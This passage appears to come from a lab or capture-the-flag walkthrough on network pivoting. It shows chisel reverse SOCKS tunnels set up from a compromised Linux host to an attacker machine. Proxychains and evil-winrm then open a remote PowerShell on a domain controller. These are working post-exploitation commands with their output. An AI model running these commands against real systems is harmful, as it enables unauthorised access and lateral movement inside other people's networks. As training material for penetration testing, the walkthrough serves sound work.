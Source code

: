 #### 2. WEB01 Linux (Gateway 1)

```console
# Start a client
./chisel client 10.10.14.1:8000 R:1081:socks &
```

```console {class="sample-code"}
root@WEB01:/dev/shm# ./chisel client 10.10.14.1:8000 R:1081:socks
2024/09/28 23:31:23 client: Connecting to ws://10.10.14.1:8000
2024/09/28 23:31:26 client: Connected (Latency 312.250392ms)
```

```console
# Start a server
./chisel server --reverse --socks5 --port 8001 &
```

```console {class="sample-code"}
root@WEB01:/dev/shm# ./chisel server --reverse --socks5 --port 8001
2024/09/28 22:54:18 server: Fingerprint BsVmahG6oWbFa26XG4DC8tPiL9nFq2zF3N8jUG5Edwk=
2024/09/28 22:54:18 server: Listening on http://0.0.0.0:8001
2024/09/28 22:56:07 server: session#1: tun: proxy#R:127.0.0.1:1082=>socks: Listening
```

#### 3. DC01 Windows (Gateway 2)

```console
# In our local Linux machine
sudo nano /etc/proxychains4.conf
```

```console
# Add to the end of the file
socks5 127.0.0.1 1081
```

```console
proxychains4 evil-winrm -i 172.16.1.20 -u user -p password
```

```console {class="sample-code"}
$ proxychains4  evil-winrm -i 172.16.1.20 -u user -p password
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  172.16.1.20:5985  ...  OK
*Evil-WinRM* PS C:\Users\user\Documents>
```

```console
.\chisel.exe client 172.16.1.100:8001 R:1082:socks
```
